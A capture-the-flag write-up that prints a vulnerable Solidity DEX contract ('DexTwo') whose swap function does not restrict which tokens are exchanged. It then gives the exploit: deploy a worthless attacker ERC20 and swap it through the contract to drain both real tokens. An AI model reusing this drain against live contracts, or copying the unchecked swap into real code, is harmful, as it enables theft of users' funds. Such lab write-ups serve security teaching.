

# Challenge 23



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

Challenge
---
> This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

  You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

  You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

  Things that might help:

 - How has the swap method been modified?

Solution :  Dex two
---
1. Same as the Dex but we need to drain all the balance of token1 and token2 from the contract.

2. If you take look at the contract you will see there is one `require` statement missing like the ` require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");` (from dex). Means it doesn’t check the token1 and token2 are exchanging. 

Let's Make Token
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";


contract AttackToken is ERC20 {

  constructor( uint initialSupply) ERC20("Attack", "ATK") {
        _mint(msg.sender, initialSupply);
    
  }

}
```

now first initialSupply will be 400 and deploy, next send the 100 tokens to dexTwo contract (instance address), and also allow the Dextwo to exchange between token so approve the tokens `200` with `instance`.

Now DexTwo has `100` for each `token1` and `token2` and player has `300` `token`

```js
attack = "YOUR_ATTACKTOKEN_ADDRESS"
token1 = await contract.token1()
token2 = await contract.token2()
```

then let's drain `token1`
```js
await contract.swap(attack,token1,100)
```

check `token1` drains
```js
(await contract.balanceOf(token1, instance)).toString()
// 0
```

now let's drain `token2`
```js
await contract.swap(attack,token2,200)
```
check `token2` drains
```js
(await contract.balanceOf(token2, instance)).toString()
//0
```

Submit instance and your challenge will be cleared.